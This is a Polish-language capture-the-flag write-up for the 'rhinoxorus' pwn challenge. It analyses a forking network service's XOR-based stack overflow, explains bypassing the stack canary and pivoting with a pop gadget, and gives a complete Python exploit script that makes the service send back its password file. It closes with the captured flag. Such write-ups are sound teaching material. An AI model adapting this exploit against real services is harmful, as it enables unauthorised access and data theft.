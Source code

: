 ## rhinoxorus (pwn, 500p, ? solves)

Dostajemy program i analizujemy go. Po uruchomieniu wczytuje on zawartość pliku password.txt do zmiennej globalnej, i zaczyna nasłuchiwać na porcie 24242 i forkuje się dla każdego połączenia.

Każdy fork wczytuje 256 bajtów od usera i wywołuje jakąś funkcję z globalnej tablicy funkcji:

```
bytes_read = recv(sockfd, recv_buf, (unsigned int)BUF_SIZE, 0);
if (bytes_read > 0)
    func_array[recv_buf[0]](recv_buf, (unsigned int)bytes_read);
```

Każda z funkcji jest podobna, i wygląda mniej więcej tak:

```
unsigned char func_32(unsigned char *buf, unsigned int count)
{
    unsigned int i;
    unsigned char localbuf[0x84]; // stała 0x84 jest różna dla każdej funkcji w tablicy
    unsigned char byte=0x84; // stała 0x84 jest różna dla każdej funkcji w tablicy

    memset(localbuf, byte, sizeof(localbuf));
    printf("in function func_32, count is %u, bufsize is 0x84\n", count);

    if (0 == --count)
         return 0;

    for (i = 0; i < count; ++i)
         localbuf[i] ^= buf[i];

    func_array[localbuf[0]](localbuf+1, count);
    return 0;
}
```

Od razu widać że łatwo wywołać przepełnienie bufora, ale niestety - stos jest chroniony kanarkami więc nie będzie tak łatwo.

W kodzie widać też nieużywaną nigdzie funkcję socksend która wysyła podany w argumencie bufor do podanego w argumencie socketa.

Po chwili zastanowienia dochodzimy do wniosku że możemy pominąć kanarka po prostu xorując go z zerami. Następnie jedyne co musimy zrobić, to nadpisać adres powrotu w odpowiedni sposób, tak żeby wywołać funkcję socksend z parametrami socksend(fd, password, BUF_SIZE) (w ten sposób program sam wyśle do nas flagę).

Niestety nie jest tak prosto, na stosie nie ma wystarczająco wiele miejsca żeby zmieścic argumenty dla funkcji socksend (po nadpisaniu zmiennej 'counter' kończy się wykonanie funkcji). Ale jeśli postaramy się, możemy przeskoczyć do ramki funkcji niżej. Używamy do tego następującego gadgetu:

```
gadget_pop:
add     esp, 0Ch    ; pominięcie 3 elementów na stosie
pop     ebx         ; zdjęcie elementu ze stosu (i zapisanie do ebx)
pop     esi         ; zdjęcie elementu ze stosu (i zapisanie do esi)
pop     edi         ; zdjęcie elementu ze stosu (i zapisanie do edi)
pop     ebp         ; zdjęcie elementu ze stosu (i zapisanie do ebp)
retn                ; zdjęcie elementu ze stosu i skoczenie od niego
```

Który zdejmuje 7 elementów ze stosu, i skacze pod 8.

Więc ostateczny plan jest taki: skaczemy pod ten gadget, on zdejmuje odpowiednią ilość parametrów ze stosu, wtedy wykonanie trafia na początek naszego czystego, niexorowanego bufora w pamięci i możmy zrobić co tylko chcemy.

Docelowo stos będzie wyglądał tak:

![](./shellcode.png)

Skrypt którego użyliśmy :o wygenerowania shellcodu i wysłania go do programu:

```
# -*- coding: utf-8 -*-
import struct, socket

HOST = '54.152.37.20'
PORT = 24242

s = socket.socket()
s.connect((HOST, PORT))

# oryginalny adres powrotu na stosie
first_return_addr = 0x08056AFA
# placeholder na zmienne których zawartość jest nieważna
placeholder = 'xxxx'

gadget_pop_xor = struct.pack('<I', 0x080578f5 ^ first_return_addr)
password_addr = struct.pack('<I', 0x0805F0C0)
socksend_addr = struct.pack('<I', 0x0804884B)
exit_addr = struct.pack('<I', 0x08048670)

def get_payload(counter):
    # xorujemy z 1, bo chcemy żeby counter przyjął 1
    counter_xor = struct.pack('<I', counter ^ 1)
    # składamy payload
    return (
            # adres funkcji socksend (znany)
            socksend_addr
            # adres powrotu z funkcji socksend do exit
            + exit_addr
            # deskryptor dla socksend (przewidywana wartość)
            + struct.pack('<I', 4)
            # adres zmiennej globalnej password dla socksend
            + password_addr
            # ilość bajtów do przeczytania dla socksend
            + struct.pack('<I', 256)
            # wolne miejsce na stosie (niezajęta część bufora)
            + placeholder * 39
            # xorowane z kanarkiem
            + '\0\0\0\0'
            # puste miejsce na stosie
            + placeholder * 3
            # podmieniamy adres powrotu na gadget_pop
            + gadget_pop_xor
            # xorowane z niepotrzebnym już argumentem z adresem bufora
            + placeholder
            # zerowanie countera
            + counter_xor
            )

# zmierzenie długości payloadu
payload_length = len(get_payload(123))
# i stworzenie ostatecznego payloadu
payload = get_payload(payload_length - 1)
s.send(payload)
print s.recv(99999)
```

I udaje się - skrypt który napisaliśmy zadziałał. Zdobyliśmy w ten sposób upragnioną flagę:
    cc21fe41b44ba70d0e6978c840698601
